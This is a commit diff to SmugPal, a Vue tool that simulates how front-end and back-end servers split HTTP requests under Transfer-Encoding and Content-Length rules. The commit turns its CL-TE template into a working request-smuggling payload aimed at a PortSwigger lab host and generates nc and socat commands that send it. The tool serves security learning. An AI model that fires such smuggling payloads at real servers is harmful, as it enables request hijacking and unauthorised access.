

Before and after one commit to kizzx2/SmugPal, a Vue app: page / in a window 1280 px wide. Shown: the part 287-1155 px from the top of the page, 1395 px wide, since content can reach past the window. Before the commit the page ends 1087 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
fix bugs and made CL-TE example work with portswigger lab

```diff
--- a/src/App.vue
+++ b/src/App.vue
@@ -9,6 +9,8 @@ import { computed, ref } from 'vue'
 enum ProcessingMode {
   TE = 'te',
   CL = 'cl',
+  TECL = 'tecl',
+  CLTE = 'clte',
 }
 
 const server1Mode = ref<ProcessingMode>(ProcessingMode.TE)
@@ -19,26 +21,23 @@ const colors = ['lightpink', 'lightgreen', 'lightblue', 'lightyellow', 'lightora
 const fontColors = ['black', 'black', 'black', 'black', 'black', 'black', 'black', 'black']
 const cmdHostname = ref<string>('example.com')
 const cmdPort = ref<string>('80')
-const commandLine = computed(() => `echo -n '${input.value.replace(/'/g, `'"'"'`).replace(/\n/g, '\\r\\n')}' | nc ${cmdHostname.value} ${cmdPort.value}`)
+const cmdNc = computed(() => `printf '${input.value.replace(/'/g, `'"'"'`).replace(/\n/g, '\\r\\n')}' | nc ${cmdHostname.value} ${cmdPort.value}`)
+const cmdSocat = computed(() => `printf '${input.value.replace(/'/g, `'"'"'`).replace(/\n/g, '\\r\\n')}' | socat - OPENSSL:${cmdHostname.value}:${cmdPort.value},verify=0`)
 
 const decLength = computed(() => sizeCalcInput.value.replace(/\n/g, '\r\n').length)
 const hexLength = computed(() => sizeCalcInput.value.replace(/\n/g, '\r\n').length.toString(16))
 
-const clteTemplate = `GET / HTTP/1.1
+const clteTemplate = `POST / HTTP/1.1
+Host: 0ada007003e1c1b78832d43d0020006c.web-security-academy.net
 Transfer-Encoding: chunked
-Content-Length: 61
+Content-Length: 36
 
 0
 
 GET /flag HTTP/1.1
-Transfer-Encoding: chunked
+X-Ignore: XGET / HTTP/1.1
+Host: 0ada007003e1c1b78832d43d0020006c.web-security-academy.net
 
-28
-
-GET / HTTP/1.1
-Content-Length: 1
-
-0
 `
 
 const teclTemplate = `GET / HTTP/1.1
@@ -85,21 +84,83 @@ function process(x: string, mode: ProcessingMode): string[] {
     switch (state) {
       case State.Header: {
         const idx = x.indexOf('\r\n\r\n')
+        if (idx === -1) {
+          buf += x + '<em>Error: no CRLFCRLF found while reading headers</em>'
+          x = ''
+          break
+        }
         buf += x.slice(0, idx + 4)
         x = x.slice(idx + 4)
         state = State.Body
         break
       }
       case State.Body: {
-        switch (mode) {
-          case ProcessingMode.TE: {
-            if (buf.toLowerCase().indexOf('transfer-encoding: ') === -1) {
-              buf += '<em>Error: Transfer-Encoding header not found for TE mode</em>'
+        let effectiveMode: ProcessingMode | undefined = mode
+        switch(mode) {
+          case ProcessingMode.TECL: {
+            if (buf.toLowerCase().indexOf('transfer-encoding: ') !== -1) {
+              effectiveMode = ProcessingMode.TE
+            } else if (buf.toLowerCase().indexOf('content-length: ') !== -1) {
+              effectiveMode = ProcessingMode.CL
+            } else {
+              if (!buf.startsWith('GET ')) {
+                buf += '<em>Error: Transfer-Encoding nor Content-Length header not found for TECL mode</em>'
+              }
               rv.push(buf)
               buf = ''
               state = State.Header
-              break
+              effectiveMode = undefined
             }
+            break
+          }
+          case ProcessingMode.CLTE: {
+            if (buf.toLowerCase().indexOf('content-length: ') !== -1) {
+              effectiveMode = ProcessingMode.CL
+            } else if (buf.toLowerCase().indexOf('transfer-encoding: ') !== -1) {
+              effectiveMode = ProcessingMode.TE
+            } else {
+              if (!buf.startsWith('GET ')) {
+                buf += '<em>Error: Transfer-Encoding nor Content-Length header not found for CLTE mode</em>'
+              }
+              rv.push(buf)
+              buf = ''
+              state = State.Header
+              effectiveMode = undefined
+            }
+            break
+          }
+          case ProcessingMode.TE: {
+            if (buf.toLowerCase().indexOf('transfer-encoding: ') === -1) {
+              if (!buf.startsWith('GET ')) {
+                buf += '<em>Error: Transfer-Encoding header not found for TE mode</em>'
+              }
+              rv.push(buf)
+              buf = ''
+              state = State.Header
+              effectiveMode = undefined
+            }
+            break
+          }
+          case ProcessingMode.CL: {
+            if (buf.toLowerCase().indexOf('content-length: ') === -1) {
+              if (!buf.startsWith('GET ')) {
+                buf += '<em>Error: Content-Length header not found for CL mode</em>'
+              }
+              rv.push(buf)
+              buf = ''
+              state = State.Header
+              effectiveMode = undefined
+            }
+            break
+          }
+        }
+
+        if (!effectiveMode) {
+          break
+        }
+
+        switch (effectiveMode) {
+          case ProcessingMode.TE: {
             const idx = x.indexOf('\r\n')
             const len = parseInt(x.slice(0, idx), 16)
             if (isNaN(len)) {
@@ -130,13 +191,7 @@ function process(x: string, mode: ProcessingMode): string[] {
 
           case ProcessingMode.CL: {
             const idx = buf.toLowerCase().indexOf('content-length: ')
-            if (idx === -1) {
-              buf += '<em>Error: Content-Length header not found for CL mode</em>'
-              rv.push(buf)
-              buf = ''
-              state = State.Header
-              break
-            }
+            console.assert(idx !== -1)
             const len = parseInt(buf.slice(idx).split('\r\n')[0].split(/\s+/)[1])
             buf += x.slice(0, len)
             x = x.slice(len)
@@ -147,7 +202,7 @@ function process(x: string, mode: ProcessingMode): string[] {
           }
 
           default:
-            throw new Error('Invalid mode')
+            throw new Error(`Invalid mode ${effectiveMode}`)
         }
         break
       }
@@ -166,6 +221,7 @@ function process(x: string, mode: ProcessingMode): string[] {
 function processThenFormat(input: string, mode: ProcessingMode): string {
   try {
     return process(input, mode)
+      .map((part) => part.replace(/\r/g, '<span style="color: gray">\\r</span>').replace(/\n/g, '<span style="color: gray">\\n</span>\n'))
       .map((part, i) => `<span style="background-color: ${colors[i % colors.length]}; color: ${fontColors[i % fontColors.length]}">${part}</span>`)
       .join('')
   } catch (e) {
@@ -174,8 +230,10 @@ function processThenFormat(input: string, mode: ProcessingMode): string {
 }
 
 const modeOptions = [
-  { name: 'TE (Follow Transfer-Encoding)', value: ProcessingMode.TE },
-  { name: 'CL (Follow Content-Length)', value: ProcessingMode.CL },
+  { name: 'TE (Follow Transfer-Encoding only)', value: ProcessingMode.TE },
+  { name: 'CL (Follow Content-Length only)', value: ProcessingMode.CL },
+  { name: 'TECL (Prefer Transfer-Encoding; then follow Content-Length)', value: ProcessingMode.TECL },
+  { name: 'CLTE (Prefer Content-Length; then follow Transfer-Encoding)', value: ProcessingMode.CLTE },
 ]
 const server1Result = computed(() => processThenFormat(input.value, server1Mode.value))
 const server2Result = computed(() => processThenFormat(input.value, server2Mode.value))
@@ -245,8 +303,10 @@ setTeclTemplate()
         <InputText placeholder="Port" v-model="cmdPort" />
       </div>
     </div>
-    <pre style="background-color: #eee; padding: 0.5rem; max-width: 100%; white-space: normal; overflow-wrap: break-word;">{{ commandLine }}</pre>
-    <small style="font-family: sans-serif">Tip: use <code>socat</code> for SSL</small>
+    <small style="font-family: sans-serif;">nc (HTTP)</small>
+    <pre style="background-color: #eee; padding: 0.5rem; max-width: 100%; white-space: normal; overflow-wrap: break-word;">{{ cmdNc }}</pre>
+    <small style="font-family: sans-serif;">socat (HTTPS)</small>
+    <pre style="background-color: #eee; padding: 0.5rem; max-width: 100%; white-space: normal; overflow-wrap: break-word;">{{ cmdSocat }}</pre>
   </Fieldset>
 </template>
 
```
Also changed, not shown: 1 other file (tests, documents, lock files or other folders).
